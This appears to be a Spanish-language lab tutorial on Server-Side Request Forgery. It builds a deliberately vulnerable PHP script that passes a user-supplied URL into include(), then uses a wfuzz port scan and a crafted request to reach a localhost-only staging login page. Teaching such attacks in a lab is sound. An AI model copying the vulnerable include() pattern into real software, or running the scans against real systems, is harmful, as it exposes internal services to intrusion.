


# ¿Qué es SSRF?
Server-Side Request Forgery es una vulnerabilidad que permite al atacante inducir al servidor a realizar solicitudes HTTP hacia destinos arbitrarios. El objetivo puede ser la red interna, servicios locales, metadatos de cloud, o endpoints restringidos.

## Preparando el entorno vulnerable

```sh

docker pull ubuntu:latest
docker run -dit --name ssrf_first_lab ubuntu
docker exec -it ssrf_first_lab bash
apt update
apt install apache2 php nano python3  -y 
```

Configuracion del servicio apache

```bash
service apache2 start
cd /var/www/html
rm index.html
nano utility.php
```

Contenido de la utilidad:

```php
<?php
    
    if(isset($_GET['url'])){
      $url = $_GET['url'];
      echo "\n Listando contenido de la Web -->" . $php . ":\n\n";
      include($url);
    }else{
      echo "\n No se proporciono una URL valida";
    }

?>
```

Habilitar ```allow_url_include``` en php.ini

```sh
nano /etc/php/8.3/apache2/php.ini 
service apache2 restart
```

Verificar el funcionamiento:




## Creando login de "Produccion"

```html
<!DOCTYPE html>
<html lang="es">
<head>
  <meta charset="UTF-8">
  <title>Iniciar sesión - AcmeCorp(PRO)</title>
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <style>
    body {
      background-color: #f4f6f8;
      font-family: Arial, sans-serif;
      display: flex;
      justify-content: center;
      align-items: center;
      height: 100vh;
    }
    .login-container {
      background-color: white;
      padding: 40px;
      border-radius: 8px;
      box-shadow: 0 4px 10px rgba(0,0,0,0.1);
      width: 100%;
      max-width: 360px;
    }
    .login-container h2 {
      margin-bottom: 24px;
      color: #333;
      text-align: center;
    }
    input[type="text"],
    input[type="password"] {
      width: 100%;
      padding: 12px;
      margin-bottom: 16px;
      border: 1px solid #ccc;
      border-radius: 4px;
    }
    button {
      width: 100%;
      padding: 12px;
      background-color: #007bff;
      border: none;
      color: white;
      font-weight: bold;
      border-radius: 4px;
      cursor: pointer;
    }
    button:hover {
      background-color: #0056b3;
    }
    .footer {
      margin-top: 16px;
      text-align: center;
      font-size: 0.9em;
      color: #777;
    }
  </style>
</head>
<body>
  <div class="login-container">
    <h2>Portal Corporativo</h2>
    <form action="/auth/login" method="POST">
      <input type="text" name="username" placeholder="Usuario" required>
      <input type="password" name="password" placeholder="Contraseña" required>
      <button type="submit">Iniciar sesión</button>
    </form>
    <div class="footer">
      © 2025 AcmeCorp S.A.
    </div>
  </div>
</body>
</html>
```

## Login de PRE-produccion


```html
<!DOCTYPE html>
<html lang="es">
<head>
  <meta charset="UTF-8">
  <title>Login - Staging - AcmeCorp</title>
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <style>
    body {
      background-color: #eaeaea;
      font-family: 'Courier New', Courier, monospace;
      display: flex;
      justify-content: center;
      align-items: center;
      height: 100vh;
    }
    .login-container {
      background-color: #fffbe6;
      padding: 40px;
      border: 2px dashed #999;
      border-radius: 8px;
      width: 100%;
      max-width: 400px;
    }
    .banner {
      background-color: #ffa500;
      color: #000;
      text-align: center;
      padding: 8px;
      font-weight: bold;
      margin-bottom: 20px;
      border-radius: 4px;
    }
    h2 {
      text-align: center;
      color: #333;
    }
    input[type="text"],
    input[type="password"] {
      width: 100%;
      padding: 12px;
      margin-top: 10px;
      margin-bottom: 16px;
      border: 1px solid #ccc;
      border-radius: 4px;
    }
    button {
      width: 100%;
      padding: 12px;
      background-color: #555;
      border: none;
      color: white;
      font-weight: bold;
      border-radius: 4px;
    }
    button:hover {
      background-color: #333;
    }
    .footer {
      margin-top: 16px;
      text-align: center;
      font-size: 0.85em;
      color: #555;
    }
  </style>
</head>
<body>
  <div class="login-container">
    <div class="banner">⚠️ ENTORNO DE PRE-PRODUCCIÓN</div>
    <h2>Staging Portal</h2>
    <form action="/staging-auth/login" method="POST">
      <input type="text" name="username" placeholder="usuario@staging.local" required>
      <input type="password" name="password" placeholder="contraseña123" required>
      <button type="submit">Login</button>
    </form>
    <div class="footer">
      AcmeCorp Internal Staging - No usar en producción
    </div>
  </div>
</body>
</html>
```

## Blindeando el servicio 

En el contenedor de docker:

```sh
nano new-login.html
cd /tmp
python3 -m http.server 4646 --bind 127.0.0.1
```

> Este servicio ahora solo es visible desde la propia maquina (o contenedor).
{: .prompt-info}


## Primer ejemplo de SSRF

Se utilizará el punto de entrada vulnerable utility.php?url= para inducir al servidor a realizar solicitudes a direcciones locales (127.0.0.1, localhost) o privadas (10.x.x.x, 172.16.x.x, 192.168.x.x) en distintos puertos.


```sh
wfuzz -c -t 200 --hl=3 -z range,1-65535 "http://172.17.0.2/utility.php?url=http://127.0.0.1:FUZZ"
```




> Ahora el puerto 4646 aparece, eso quiere decir que las peticiones se estan haciendo desde la maquina local.
{: .prompt-info}


## Accediendo a contenido en PRE-produccion

```bash
http://172.17.0.2/utility.php?url=http://127.0.0.1:4646/new-login.html
```

## Conclusión

A través de los escenarios simulados, se demostró que una vulnerabilidad de tipo SSRF puede comprometer seriamente la seguridad interna de un sistema, incluso sin necesidad de una explotación directa del servidor afectado.